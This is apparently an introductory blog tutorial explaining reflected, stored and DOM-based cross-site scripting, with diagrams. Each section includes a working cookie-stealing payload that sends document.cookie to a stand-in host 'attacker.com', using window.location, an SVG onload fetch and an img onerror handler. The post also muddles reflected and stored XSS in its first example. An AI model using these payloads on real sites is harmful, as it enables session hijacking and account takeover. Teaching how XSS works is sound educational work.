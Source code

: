 ```yaml
---
title: Basics of Xss
published: true
---
```

Hey Hackers, Today's article will be about Cross-site scripting. We will be discussing about different types of Cross-site scripting but before that we 
need to know what is cross site scripting. So let's get started :)
<p align="center">
  <img src="https://www.davosnetworks.com/wp-content/uploads/2020/07/cross-site-scripting-xss-864x454.jpg" />
</p>
**What is Cross site Scripting?**   
Cross site scripting a.k.a xss is a type of an injection attack where malicious code is being executed on the website i.e. Malicious JavaScript code. Xss is typically can be founded where input fields like search fields, comment fields, or url defined parameters. XSS is marked as A7 on OWASP TOP 10. As from an attacker perspective, xss can allow a hacker to send malicious script to the victim, thus when the victim will execute the script on the browser side, the attacker can retrieve data from the victim or host a malicious code that can gain access to their computer. I think now you got the idea what xss is :p. Let's just cut to the chase and describe the three types of xss. The three types of xss are: -
1. Reflected XSS
2. Stored XSS
3. DOM-Based XSS

**REFLECTED XSS**   
Reflected xss is defined as where the malicious code is being reflected in the website result. Reflected XSS is a non-persistent attack. Let's take a scenario where awebsite https://www.redacted.com has a forum where the comment field is vulnerable to reflected xss. So the attacker will create an xss payload for e.g: - <br>```https://redacted.com/comment/forum_comment=<script>window.location='http://attacker.com/?cookie='+document.cookie</script>```<br>and place it inside the comment field. So whenever the user clicks on the link inside the comment, it will execute and redirect the user to the attacker server and steal their cookie. Thus the attacker can use the cookie in order to impersonate the user. Or more advanced xss would be to install a malware automatically once the victim has been phished to the attacker server and taking control of their computer.
<p align="center">
  <img src="https://blog.sqreen.com/wp-content/uploads/2018/03/reflexted-xss.png"/>
  Kudos to whoever made this amazing diagram :D
</p>   
**STORED XSS**   
Stored xss a.k.a persistent xss is where the malicious code will constantly execute as it is being stored in the server side. This kind of xss is more dangerous than the reflected or DOM-based xss (Will tell you in the next section about DOM :D) as you don't need to lure the target into clicking a link or any sort of as it will execute everytime when the victim visits that page that contains stored xss payload. For instance, there is a website that contains a section to upload an image and the file upload is vulnerable to xss, so the attacker can create the following payload <br>```<svg xmlns="http://www.w3.org/2000/svg" onload=fetch('//attacker.com/?cookie='+document.cookie)/>```<br> and save it in a file with an extension of svg. Finally then uploading it to the website. Everytime the victim visits the malicious image file, their cookies will be stolen and be send over to the attacker server. Thus the attacker can use the cookies and login to the victim's account.<br>
<p align="center">
  <img src="https://www.imperva.com/learn/wp-content/uploads/sites/13/2019/01/sorted-XSS.png" /><br>
  kudos to imperva :D
</p><br>
**DOM-BASED XSS**   
According to OWASP website, DOM-Based XSS a.k.a 'type-0 XSS' is such where the malicious code affects the DOM model, thus modifying the DOM environment in the victim's browser. The DOM (Document Object Model) objects can be manipulated and used to create a cross site scripting attack as it only affects the client side and not the server side. Some famous DOM objects that are used in order to exploit DOM XSS are document.url, document.referrer etc. Let's take a scenario where a website https://www.redacted.com/index.html has the following code<br>
```<script>document.write("<p>The Current URL is : </p>" + document.baseURI);</script>```. Now Suppose if the attacker manipulates the url into<br>```http://www.redacted.com/index.html#<img src=x onerror=this.src='http://attacker.com/?'+document.cookie;>```. The malicious javascript code will be executed as it is affecting the document.write function in the DOM environment.<br>
<p align="center">
 <img src="https://gotowebsecurity.com/wp-content/uploads/2017/05/DOM-based-cross-site-scripting-678x381.jpg" />
 Kudos to gotowebsecurity for this amazing diagram :)
</p> 

